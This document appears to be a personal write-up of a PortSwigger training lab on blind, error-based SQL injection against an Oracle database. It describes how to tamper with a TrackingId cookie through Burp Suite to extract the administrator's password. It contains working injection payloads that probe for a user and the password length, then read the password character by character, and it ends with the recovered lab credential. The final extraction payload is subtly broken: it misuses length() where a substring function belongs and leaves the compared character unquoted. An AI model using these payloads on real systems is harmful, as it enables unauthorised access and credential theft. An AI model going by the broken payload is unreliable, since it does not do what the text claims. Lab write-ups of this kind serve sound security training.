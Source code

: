 # Error-based SQL injection

## Lab's decsription

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

**End goal:** log in as the `administrator` user.

## Solution

Use Burp Suite to intercept and modify `TrackingId` cookie.

First, we need to see the behavior after modify cookie. Go to login page

![]()

Here is my cookie: `ZDhTYBxTuioKS1t5`. We have hint: `This lab uses an Oracle database.`

Send this to Repeater. 

Now we gonna see if the username `administrator` exits or not.

`ZDhTYBxTuioKS1t5'||(select case when (1=2) then to_char(1/0) else '' end from users where username='administrator')||'`

Next we gonna see the length of the password. Send the target to Intruder and loop it from 1 to 20.

`ZDhTYBxTuioKS1t5'||(select case when (length(password) > 1) then to_char(1/0) else '' end from users where username='administrator')||'`

![]()

![]()

We can see the length is different, because it does not respond the `Error` message.

After that, we will discover character-by-character for the password.

`ZDhTYBxTuioKS1t5'||(select case when (length(password,1,1) = a) then to_char(1/0) else '' end from users where username='administrator')||'`

![]()

![]()

![]()

After half hour, I got this:

`Username: administrator`

`Password:x555lejj395mk0k98nja`

**Source:** [Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors#)

